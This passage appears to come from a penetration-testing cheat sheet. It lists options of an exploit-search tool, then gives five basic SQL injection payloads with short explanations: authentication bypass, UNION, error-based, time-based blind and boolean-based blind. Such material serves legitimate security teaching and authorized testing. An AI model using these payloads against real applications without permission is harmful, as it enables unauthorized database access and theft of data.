 - **Search Options:**
  - `-c`: Case-sensitive search.
  - `-e`: Exact term search.
  - `-t`: Search by title only.
  - `--cve <CVE-ID>`: Search by CVE identifier.
- **Output Options:**
  - `-j`: Output in JSON format.
  - `-o`: Allow titles to overflow columns.
  - `-p`: Show full path to exploit files.
  - `-v`: Verbose mode.
  - `-w`: Show URLs to exploit-db.com.
  - `--disable-colour`: Disable colored output for easier reading or scripting.
- **Automation:**
  - `--nmap <file.xml>`: Parse Nmap XML output for automated exploit searching.

### SQL Injection

SQL Injection is a technique used to exploit vulnerabilities in an application's database layer by injecting malicious SQL code. Here are some basic payload examples:

1. **Bypass Authentication:**
    This payload can bypass login authentication by exploiting poorly implemented SQL queries.

    ```sql
    ' OR '1'='1' --
    ```

2. **Union-Based SQL Injection:**
    This payload uses the `UNION` SQL operator to combine the results of two or more select statements into a single result.

    ```sql
    ' UNION SELECT null, table_name FROM information_schema.tables --
    ```

3. **Error-Based SQL Injection:**
    This payload forces the database to generate an error message, which can reveal valuable information about the database structure.

    ```sql
    ' AND 1=CONVERT(int, (SELECT @@version)) --
    ```

4. **Time-Based Blind SQL Injection:**
   This payload uses database functions to cause a delay, which can indicate whether a condition is true or false, useful in blind SQL injection attacks.

   ```sql
    ' OR IF(1=1, SLEEP(5), 0) --
   ```

5. **Boolean-Based Blind SQL Injection:**
    This payload exploits true or false conditions to infer information about the database.

    ```sql
    ' AND 1=1 --
    ' AND 1=2 --
    ```
